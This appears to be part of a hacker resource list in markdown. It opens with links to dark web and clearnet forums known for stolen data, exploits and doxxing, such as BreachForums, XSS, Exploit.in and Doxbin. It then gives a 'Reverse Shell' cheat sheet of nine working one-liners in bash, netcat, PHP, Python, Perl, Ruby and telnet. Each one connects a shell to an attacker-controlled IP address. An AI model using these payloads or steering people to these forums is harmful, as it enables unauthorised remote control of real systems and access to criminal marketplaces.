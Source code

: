 ### Forum

#### Dark Web Forum

- [BreachForums](https://breached26tezcofqla4adzyn22notfqwcac7gpbrleg4usehljwkgqd.onion/)
- [Darknet Live](https://darkzzx4avcsuofgfez5zq75cqc4mprjvfqywo45dfcaxrwqg6qrlfid.onion/)
- [Dread](https://dreadytofatroptsdj6io7l3xptbet6onoyno2yv7jicoxknyazubrad.onion/)


#### Clearnet Forum

- [Exe.is](https://exe.is/)
- [Xss.is](https://xss.is/)
- [Leakbase.io](https://leakbase.io/)
- [Exploit.in](https://exploit.in/)
- [BlackHatWorld](https://www.blackhatworld.com/)
- [Cracked.io](https://cracked.io/)
- [Nulled.io](https://www.nulled.to/)
- [4Cheat](https://4cheat.ru/)
- [Doxbin](https://doxbin.org)
- [Vx-Underground](https://vx-underground.org/)
- [Spyhackerz](https://spyhackerz.net/)
- [Ramp4u](https://ramp4u.io/)
- [HackForums](https://hackforums.net/index.php)
- [CrimeNetwork](https://crime.to/)
- [BlackForums](https://blackforums.net/)


---



## Reverse Shell

### 31

````
bash -i >& /dev/tcp/10.10.10.1/4444 0>&1  

mknod backpipe p && nc 10.10.10.1 4445 0<backpipe | /bin/bash 1>backpipe 

mkfifo /tmp/f2;cat /tmp/f2|/bin/sh -i |nc 10.10.10.1 4444 >/tmp/f2 

nc -e /bin/bash 10.10.10.1 4444

php -r '$sock=fsockopen("10.10.16.1",4446);exec("/bin/sh -i <&3 >&3 2>&3");' 

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 

perl -e 'use Socket;$i="10.10.10.1";$p=4446;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 

ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
````
